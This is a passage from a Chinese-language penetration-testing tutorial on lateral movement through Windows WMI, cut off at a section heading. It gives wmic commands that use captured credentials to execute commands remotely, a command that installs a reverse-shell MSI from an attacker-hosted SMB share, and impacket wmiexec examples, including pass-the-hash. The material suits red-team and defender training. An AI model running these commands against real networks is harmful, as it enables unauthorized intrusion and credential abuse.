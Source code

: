 在横向移动时，可以利用 WMI 提供的管理功能，通过以获取的用户凭据，与本地或远程主机进行交互，并控制其执行各种行为。目前两种常见的利用方法：  
**1、通过调用 WMI 的类方法进行远程调用，如 Win32\_Process 类中的 Create 方法可以在远程主机上创建进程，Win32\_Product 类的 Install 方法可以在远程主机上安装恶意的 MSI  
****2、远程部署 WMI 事件订阅，在特定事件发生时触发**

利用 WMI 进行横向移动需要具备以下条件：  
**1、远程主机的 WMI 服务为开启状态（默认开启）  
****2、远程主机防火墙放行 135 端口，这是 WMI 管理的默认端口**

### [常规利用方法](#toc__4)

在 windows 上可以通过 wmic.exe 和 powershell cmelet 来使用 wmi 数据和执行 WMI 方法。  
wmic.exe 是一个与 WMI 进行交互的命令行工具，拥有大量的 WMI 对象的默认别名，可以执行许多复杂的查询。powershell 也提供了许多可以与 WMI 进行交互的 cmelet，如 Invoke-WmiMethod、Set-WmiInstance 等

**执行远程查询**

通过 WMI 查询远程主机上运行的进程信息

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process list brief # /node 执行远程主机的地址
```

**创建远程进程**  
通过调用 Win32\_Process.Create 方法在远程主机上创建进程，启动 CMD 来执行命令

由于 WMIC 在执行命令时没有回显，因此可以将执行结果写入文件，然后通过别的方式读取文件

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process call create "cmd.exe /c ipconfig > C:\result.txt"
```

**远程安装 MSI 文件**  
通过调用 Win32\_Product.Install 方法，可以控制远程主机安装恶意 MSI 文件，从而获得权限

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ product call install PackageLocation="\\192.168.1.1\mysmb\reverse_tcp.msi"
```

### [常见利用工具](#toc__5)

#### [套件 impacket-**WmiExec**](#toc_impacket-wmiexec)

Impacket 项目的 Wmiexec.py 能够以全交互或半交互的方式，通过 WMI 在远程主机上执行命令。该工机需要远程主机开启 135 和 445 端口，其中 445 端口用于传输命令执行的回显。

```plain
python wmiexec.py uf9n1x/Administrator:123qwe@@192.168.1.131 

wmiexec.exe ./administrator:123qwe@@192.168.1.131 "whoami" 
wmiexec.exe god/administrator:Admin12345@192.168.1.131 "whoami" 
wmiexec.exe -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131 "whoami" 
wmiexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131 "whoami"
```

#### [自带 cscript 明文传递 有回显](#toc_cscript)
